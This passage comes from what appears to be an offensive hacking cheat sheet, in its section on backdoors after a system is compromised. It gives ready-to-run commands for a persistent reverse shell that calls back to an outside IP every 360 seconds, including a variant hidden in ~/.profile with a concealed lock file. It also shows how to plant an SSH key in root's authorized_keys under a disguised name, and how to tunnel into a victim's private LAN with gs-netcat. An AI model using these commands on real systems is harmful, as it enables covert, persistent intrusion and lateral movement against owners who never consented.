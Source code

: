 A reverse shell that keeps trying to connect back to us every 360 seconds (indefinitely). Often used until a real backdoor can be deployed and guarantees easy re-entry to a system in case our connection gets disconnected. 

```sh
setsid bash -c 'while :; do bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 360; done' &>/dev/null
```

or the user's *~/.profile* (also stops multiple instances from being started):
```sh
fuser /dev/shm/.busy &>/dev/null || nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 ; sleep 360; done' &>/dev/null &
```

<a id="backdoor-auth-keys"></a>
**6.ii. authorized_keys**

Add your ssh public key to */root/.ssh/authorized_keys*. It's the most reliable backdoor ever :>

* It survives reboots.
* It even survives re-installs. Admins have been known to make a backup of authorized_keys and then put it straight back onto the newly installed system.
* We have even seen our key being copied to other companies!

Tip: Change the name at the end of the ssh public keyfile to something obscure like *backup@ubuntu* or the admin's real name:
```
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu
```
<a id="backdoor-network"></a>
**6.iii. Remote Access to an entire network**

Install [gs-netcat](https://github.com/hackerschoice/gsocket). It creates a SOCKS exit-node on the Host's private LAN which is accessible through the Global Socket Relay Network without the need to run your own relay-server (e.g. access the remote private LAN directly from your workstation):

```sh
gs-netcat -l -S       # compromised Host
```

Now from your workstation you can connect to ANY host on the Host's private LAN:
```sh
gs-netcat -p 1080    # Your workstation.

# Access route.local:22 on the Host's private LAN from your Workstation:
socat -  "SOCKS4a:127.1:route.local:22"
```
Read [Use any tool via Socks Proxy](#scan-proxy).

Other methods:
* [Gost/Cloudflared](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service) - our very own article
* [Reverse Wireguard](https://thc.org/segfault/wireguard) - from segfault.net to any (internal) network.
